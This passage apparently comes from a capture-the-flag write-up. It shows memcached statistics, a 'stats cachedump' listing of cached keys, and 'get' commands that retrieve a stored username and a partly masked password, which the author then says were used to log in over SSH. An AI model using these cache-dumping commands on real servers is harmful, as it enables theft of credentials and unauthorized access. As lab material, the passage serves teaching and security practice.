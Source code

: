 ```
STAT slab_reassign_inline_reclaim 0
STAT slab_reassign_busy_items 0
STAT slab_reassign_busy_deletes 0
STAT slab_reassign_running 0
STAT slabs_moved 0
STAT lru_crawler_running 0
STAT lru_crawler_starts 4335
STAT lru_maintainer_juggles 100439
STAT malloc_fails 0
STAT log_worker_dropped 0
STAT log_worker_written 0
STAT log_watcher_skipped 0
STAT log_watcher_sent 0
STAT bytes 383
STAT curr_items 5
STAT total_items 34735
STAT slab_global_page_pool 0
STAT expired_unfetched 0
STAT evicted_unfetched 0
STAT evicted_active 0
STAT evictions 0
STAT reclaimed 0
STAT crawler_reclaimed 0
STAT crawler_items_checked 64
STAT lrutail_reflocked 0
STAT moves_to_cold 34725
STAT moves_to_warm 0
STAT moves_within_lru 0
STAT direct_reclaims 0
STAT lru_bumps_dropped 0
```
```
stats cachedump 1 1000
ITEM id [4 b; 0 s]
ITEM email [17 b; 0 s]
ITEM Name [14 b; 0 s]
ITEM password [18 b; 0 s]
ITEM username [8 b; 0 s]
```
```
get username
VALUE username 0 8
tridente
END

get password
VALUE password 0 18
***************4r$
END
```

Nos conectamos mediante ssh con las credenciales
